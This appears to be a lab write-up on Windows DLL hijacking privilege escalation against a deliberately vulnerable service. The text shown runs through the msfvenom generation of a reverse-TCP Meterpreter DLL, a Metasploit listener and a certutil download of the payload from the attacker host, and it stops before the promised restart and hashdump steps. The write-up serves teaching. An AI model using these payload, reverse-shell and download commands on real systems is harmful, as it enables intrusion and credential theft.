






# DLL Hijacking

**Date:** June 2026
**Author:** ShahinSecLab
**Category:** Privilege Escalation
**Difficulty:** Medium
**Tools:** msfvenom, Metasploit, winPEAS, accesschk.exe, certutil

# Table of Contents

- [Introduction](#introduction)
- [Why This Attack Works](#why-this-attack-works)
- [Lab Setup](#lab-setup)
- [What I Needed Before Starting](#what-i-needed-before-starting)
- [What I Understood During the Process](#what-i-understood-during-the-process)
- [Attack Flow](#attack-flow)
- [Step 1 — Finding the DLL Hijacking Opportunity](#step-1--finding-the-dll-hijacking-opportunity)
- [Step 2 — Checking Service Permissions with accesschk.exe](#step-2--checking-service-permissions-with-accesschkexe)
- [Step 3 — Checking the Service Configuration](#step-3--checking-the-service-configuration)
- [Step 4 — Generating a Malicious DLL and Downloading it to the Victim](#step-4--generating-a-malicious-dll-and-downloading-it-to-the-victim)
- [Step 5 — Restarting the Service and Getting a SYSTEM Shell](#step-5--restarting-the-service-and-getting-a-system-shell)
- [How Defenders Can Catch This](#how-defenders-can-catch-this)
- [How to Prevent It](#how-to-prevent-it)
- [What I Achieved](#what-i-achieved)

# Introduction

DLL Hijacking is a privilege escalation technique that takes advantage of how Windows loads DLL files. When a service or program looks for a DLL, Windows searches through a list of folders in a specific order. If I can drop a malicious DLL in a folder that Windows checks before the real one — and that folder is writable by normal users — Windows loads my DLL instead. Since the service runs as SYSTEM, my malicious DLL runs as SYSTEM too.

# Why This Attack Works

When a Windows service starts, it loads DLL files it needs to run. Windows searches for those DLL files in this order:
```
1. The folder where the application is installed
2. C:\Windows\System32
3. C:\Windows\System
4. C:\Windows
5. The current working directory
6. Folders listed in the PATH environment variable
```
If a folder early in that search order is writable by normal users, I can drop a malicious DLL there. Windows picks it up before ever finding the real one — and runs it as `SYSTEM`.

## Lab Setup

```
|    Component     |         Details         |
|------------------|-------------------------|
| Attacker Machine | Kali Linux              |
| Attacker IP      | 192.168.5.128           |
| Victim Machine   | Windows 10 (MSEDGEWIN10)|
| Victim IP        | 192.168.5.144           |
| Network          | VMware Host-Only Network|
| Domain           | WORKGROUP               |
```


## Tools Prepared on Kali Before Starting

```
|       Tool     |          Location         |            Purpose              |
|----------------|---------------------------|---------------------------------|
| winPEASany.exe | /home/kali/Desktop/tools/ | Find privilege escalation paths |
| accesschk.exe  | /home/kali/Desktop/tools/ | Check service permissions       |
| msfvenom       | Built into Kali           | Generate malicious DLL payload  |
| Metasploit     | Built into Kali           | Catch reverse shells            |
| Python3        | Built into Kali           | Host files over HTTP            |
```

## What I Needed Before Starting

```
|         What                      |                          Why                            |
|-----------------------------------|---------------------------------------------------------|
| Low-privilege shell on the victim | Starting point for the privilege escalation attack.     |
| winPEAS                           | To identify services with weak binary file permissions. |
| accesschk.exe                     | To verify the permissions on the service executable.    |
| msfvenom                          | To generate the malicious DLL                           |
| Metasploit                        | To receive the reverse Meterpreter session.             |
```

## What I Understood During the Process
While working through this attack I realized that:

- Windows trusting folders in the PATH to load DLLs is a big security risk
- If any folder in the DLL search order is writable by normal users, the machine is open to this attack
- The DLL payload is different from an EXE payload — you have to use -f dll in msfvenom
- hashdump only works from Meterpreter, not from a CMD shell
- Once you get a SYSTEM Meterpreter session, you can dump every password hash on the machine in one command

## Attack Flow
```
Already had a low privilege Meterpreter shell on the victim
                        ↓
Ran winPEAS — flagged C:\Temp as writable by Authenticated Users
                        ↓
Checked service permissions with accesschk.exe
                        ↓
Found SERVICE_START and SERVICE_STOP for dllsvc
                        ↓
Checked service config — dllsvc runs as LocalSystem (SYSTEM)
                        ↓
Started dllsvc to confirm it loads DLLs from C:\Temp
                        ↓
Generated malicious hijackme.dll on Kali with msfvenom
                        ↓
Started Metasploit listener on port 4444
                        ↓
Downloaded hijackme.dll to C:\Temp on the victim using certutil
                        ↓
Stopped and restarted dllsvc
                        ↓
Service loaded hijackme.dll from C:\Temp as SYSTEM
                        ↓
Metasploit caught the shell
                        ↓
whoami → nt authority\system
                        ↓
Ran hashdump — dumped all password hashes from the machine
```

## Step 1 — Finding the DLL Hijacking Opportunity

I already had a Meterpreter shell on the victim machine as a low privilege user. I ran winPEAS to scan for privilege escalation paths.
winPEAS flagged a DLL Hijacking opportunity straight away:

```bash
C:\PrivEsc>.\winPEASany.exe
```
**Output:**

```
dllsvc(DLL Hijack Service)["C:\Program Files\DLL Hijack Service\dllhijackservice.exe"] - Manual - Stopped
```
<p align="center">
  
</p>

## Step 2 — Checking Service Permissions with accesschk.exe

After finding the vulnerable service, I checked what permissions my current user had on it.

```bash
C:\PrivEsc> .\accesschk.exe /accepteula -uqcv user dllsvc
```
**Output:**

```
R dllsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

- `SERVICE_START`: I can start the service
- `SERVICE_STOP`: I can stop the service

I could stop and restart the service myself — meaning I could trigger the DLL load whenever I wanted.

<p align="center">
  
</p>

## Step 3 — Checking the Service Configuration

After confirming that I could start and stop the service, I checked its configuration.

```bash
C:\PrivEsc> sc qc dllsvc
```
**Output:**

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
<p align="center">
  
</p>

### Started the Service

```bash
C:\PrivEsc>net start dllsvc
```

**Output:**

```
The DLL Hijack Service service is starting.
The DLL Hijack Service service was started successfully.
```
I started the service to confirm it was working and loading DLLs from `C:\Temp`.

<p align="center">
  
</p>

## Step 4 — Generating a Malicious DLL and Downloading it to the Victim

I generated a malicious DLL on my Kali machine using msfvenom. This DLL would connect back to my Metasploit listener when it was loaded by the vulnerable service.

### Generated a Malicious DLL on Kali
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f dll -o hijackme.dl
```

### Flag Breakdown

```
| Flag  |            Value                    |                         Description                                  |
|-------|-------------------------------------|----------------------------------------------------------------------|
| -p    | windows/x64/meterpreter/reverse_tcp | Creates a 64-bit Windows Meterpreter reverse TCP payload.            |
| LHOST | 192.168.5.128                       | My Kali machine's IP address that receives the reverse connection.   |
| LPORT | 4444                                | The port on my Kali machine that listens for the incoming connection.|
| -f    | dll                                 | Generates the payload as a DLL file.                                 |
| -o    | hijackme.dll                        | Saves the generated payload as hijackme.dll.                         |
```

**Output:**

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: hijackme.dll
```
<p align="center">
  
</p>

### Started Metasploit Listener on Kali

Before triggering the service, I started a Metasploit listener on my Kali machine to catch the incoming Meterpreter connection.

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.5.128
set lport 4444
run
```
**Output:**

```
[*] Started reverse TCP handler on 192.168.5.128:4444
```
<p align="center">
  
</p>

### Downloaded the Malicious DLL on the Victim Machine

```bash
C:\PrivEsc> cd C:\Temp
```
```bash
C:\Temp> certutil -urlcache -split -f http://192.168.5.128/hijackme.dll hijackme.dll
```
```
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
```
<p align="center">
  
</p>